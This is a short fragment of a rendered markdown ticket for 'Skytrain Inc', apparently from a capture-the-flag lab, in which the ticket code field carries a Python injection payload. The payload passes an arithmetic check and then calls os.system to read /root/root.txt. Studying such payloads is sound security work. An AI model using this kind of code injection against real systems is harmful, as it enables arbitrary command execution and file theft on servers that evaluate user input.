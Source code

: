 # Skytrain Inc 
## Ticket to
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('cat /root/root.txt') == False
